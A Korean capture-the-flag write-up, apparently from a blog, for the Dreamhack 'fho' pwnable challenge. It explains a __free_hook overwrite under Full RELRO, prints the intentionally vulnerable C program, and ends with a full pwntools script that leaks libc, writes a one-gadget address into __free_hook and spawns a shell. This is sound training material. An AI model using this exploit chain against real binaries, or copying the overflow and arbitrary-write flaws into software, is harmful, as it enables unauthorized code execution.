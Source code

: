 ```yaml
---
layout: post
title: Pwnable | [Dreamhack] fho
subtitle: Dreamhack-Pwnable fho
categories: Pwnable
tags: [Pwnable, dreakhack, Shell, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/200307765-c3ab5c40-5c8c-45ba-a7e4-67f20142b440.jpg" width = 550>
</p>

이 문제는 **Hook Overwrite** 로드맵에서 내용을 이해했는지 확인차 푸는 문제입니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/200308030-3ac3cead-e940-44a0-972f-f4ec19b9f8da.jpg" width = 340>
</p>

모든 보호기법이 설정되어 있는 것을 알 수 있다.

## 문제 풀이

**Full RELRO**로 인해서 Now binding, 프로그램이 실행될 때 해당 프로그램에서 사용되는 함수들의 주소를 읽어와 GOT 영역에 저장하기에, GOT Overwrite가 불가능하다.

하지만, C언어의 동적 할당과 해제를 담당하는 `malloc, free, realloc`는 libc.so에 구현되어 있다.

각 함수들은 실행전에 `__malloc_hook, __free_hook, __realloc_hook`이라는 훅 변수를 이용한다. 이 함수들 또한 libc.so에 정의되어 있지만, 쓰기 권한을 가진 **bss** 섹션에 존재하지에 값을 조작할 수 있다.

`__malloc_hook`을 `system` 함수로 덮고, `malloc('/bin/sh')` 혹은 `__free_hook`을 `system` 함수로 덮고, `free('/bin/sh')`을 통해 셸을 획득할 수 있다.

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  char buf[0x30];
  unsigned long long *addr;
  unsigned long long value;

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  puts("[1] Stack buffer overflow");
  printf("Buf: ");
  read(0, buf, 0x100); // BOF
  printf("Buf: %s\n", buf);

  puts("[2] Arbitary-Address-Write");
  printf("To write: ");
  scanf("%llu", &addr);
  printf("With: ");
  scanf("%llu", &value);
  printf("[%p] = %llu\n", addr, value);
  *addr = value;

  puts("[3] Arbitrary-Address-Free");
  printf("To free: ");
  scanf("%llu", &addr);
  free(addr);

  return 0;
}
```

```C
puts("[1] Stack buffer overflow");
printf("Buf: ");
read(0, buf, 0x100); // BOF
printf("Buf: %s\n", buf);
```

* buf의 주소보다 더욱 큰 값을 `read`하기에 BOF가 가능하다.

```C
puts("[2] Arbitary-Address-Write");
printf("To write: ");
scanf("%llu", &addr);
printf("With: ");
scanf("%llu", &value);
printf("[%p] = %llu\n", addr, value);
```

* `scanf("%llu", &addr);`로 덮어쓰고자 하는 주소(**__free_hook**)를 입력받을 수 있고, `scanf("%llu", &value); *addr = value;`를 통해 입력받은 주소에 원하는 값(**'/bin/sh'**)을 넣을 수 있다.

```C
puts("[3] Arbitrary-Address-Free");
printf("To free: ");
scanf("%llu", &addr);
free(addr);
```

* **__free_hook**과 **'/bin/sh'**를 넣었으므로 `free()`함수가 실행된다면 셸이 획득될 것이다. 또한, 이미 모든 로직은 완성되었으므로 마지막 `scanf("%llu", &addr);`는 어떤 값을 넣어도 괜찮다.

```armasm
# read(0, buf, 0x100);
0x000055555540092a <+112>:   lea    rax,[rbp-0x40]
0x000055555540092e <+116>:   mov    edx,0x100
0x0000555555400933 <+121>:   mov    rsi,rax
0x0000555555400936 <+124>:   mov    edi,0x0
0x000055555540093b <+129>:   call   0x555555400770 <read@plt>
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/200336244-c05203af-6ae2-421f-951f-7fe8234bf0ba.jpg" width = 480>
</p>

* 빨간 네모칸 : `read(0, buf, 0x100);`를 통해 **AAAA**를 대입한 값이 [rbp-0x40] 즉, buf의 위치가 된다.

* 노란 네모칸 : 노란 네모칸 앞 8byte는 **SFP**, 네모칸은 `__libc_start_main_ret`으로 RET의 위치가 된다. **gdb**사용시 **Backtrace**를 통해 `__libc_start_main+xxx`를 통해 알 수 있다.

buf에 0x48의 dummy 값을 넣어 출력되는 값은 `__libc_start_main_ret`가 되므로 해당 값을 통해 `libc_base`를 구한다. 이후 `__free_hook`을 이용하기 위해 해당 Symbol를 구하고, One-gadget을 통해 Exploit하면 된다.

```python
from pwn import *

p = process('./fho', env = {'LD_PRELOAD' : './libc-2.27.so'}) # libc linking
libc = ELF('./libc-2.27.so')

buf = b'A'*0x48
p.sendafter('Buf: ', buf)
p.recvuntil(buf)

libc_start_main_xx = u64(p.recvline()[:-1] + b'\x00' * 2)
libc_base = libc_start_main_xx - (libc.symbols['__libc_start_main'] + 231)
free_hook = libc_base + libc.symbols['__free_hook']
one_gadget = libc_base + 0x4f432 # one gadget values

p.sendlineafter("write: ", str(free_hook))
p.sendlineafter("With: ", str(one_gadget))
p.sendlineafter("free: ", "0")

p.interactive()
```